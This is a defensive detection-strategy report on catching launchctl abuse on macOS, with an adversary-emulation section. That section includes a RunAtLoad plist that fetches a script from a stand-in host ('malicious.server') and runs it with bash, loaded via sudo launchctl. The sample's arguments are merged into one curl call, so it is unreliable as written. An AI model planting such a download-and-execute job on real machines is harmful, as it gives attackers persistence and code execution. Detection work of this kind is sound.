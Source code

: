 # Palantir's Alerting & Detection Strategy (ADS) Report: Detecting Adversarial Use of Launchctl on macOS

## Goal
The objective of this technique is to detect adversarial attempts to use `launchctl` for executing malicious activities, which may involve bypassing security monitoring systems.

## Categorization
- **MITRE ATT&CK Mapping:** T1569.001 - Launchctl
- **Tactic / Kill Chain Phases:** Execution
- **Platforms:** macOS

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1569/001)

## Strategy Abstract
The detection strategy focuses on monitoring and analyzing the use of `launchctl` on macOS systems to identify unauthorized or malicious activities. Key data sources include:
- System logs (e.g., system.log, syslog)
- Process execution records

Patterns analyzed involve:
- Unusual `launchctl` commands executed with elevated privileges.
- Anomalies in job scheduling and management that do not align with typical user behavior.

## Technical Context
Adversaries may leverage `launchctl`, a command-line utility used to manage launchd jobs, to execute code with persistence or evade detection. In real-world scenarios, attackers exploit this by:
- Creating malicious launch agents or daemons.
- Using `launchctl` to start processes that avoid traditional security monitoring.

**Adversary Emulation Details:**
Sample commands for emulation might include:
```bash
sudo launchctl load /path/to/malicious.plist
```

**Test Scenario:**
1. Create a benign `.plist` file with unusual scheduling parameters.
2. Use `launchctl` to load the job and observe system behavior.

## Blind Spots and Assumptions
- **Limitations:** Detection might not cover all variations of malicious payloads or obfuscated code within launchd configurations.
- **Assumptions:** Assumes that benign use of `launchctl` follows typical user patterns, which may vary across organizations.

## False Positives
Potential benign activities that could trigger false alerts include:
- Legitimate administrative tasks using `launchctl`.
- Scheduled jobs created by system updates or standard software installations.

## Priority
**Severity: Medium**

**Justification:** While not as common as other attack vectors on macOS, the misuse of `launchctl` can provide persistence and evasion capabilities to adversaries, making it a significant threat if left undetected.

## Validation (Adversary Emulation)
### Step-by-Step Instructions:
1. **Environment Setup:**
   - Prepare a macOS test environment with standard security tools enabled.
   
2. **Create Malicious `.plist` File:**
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
   <plist version="1.0">
     <dict>
       <key>Label</key>
       <string>com.example.malicious</string>
       <key>ProgramArguments</key>
       <array>
         <string>/usr/bin/curl</string>
         <string>-s</string>
         <string>-o</string>
         <string>/tmp/malicious_payload.sh</string>
         <string>http://malicious.server/script.sh</string>
         <string>/bin/bash</string>
         <string>/tmp/malicious_payload.sh</string>
       </array>
       <key>RunAtLoad</key>
       <true/>
     </dict>
   </plist>
   ```

3. **Execute Command:**
   ```bash
   sudo launchctl load /path/to/com.example.malicious.plist
   ```

4. **Monitor System Logs:**
   - Check for unusual process starts or network activity following the execution.

## Response
When an alert is triggered:
- Immediately isolate the affected system.
- Analyze logs to identify the source and nature of `launchctl` usage.
- Review all loaded launchd jobs for suspicious entries.
- Remove any identified malicious configurations using:
  ```bash
  sudo launchctl unload /path/to/com.example.malicious.plist
  ```

## Additional Resources
- None available

---

This report provides a comprehensive overview and actionable insights into detecting adversarial use of `launchctl` on macOS, aligned with Palantir's ADS framework.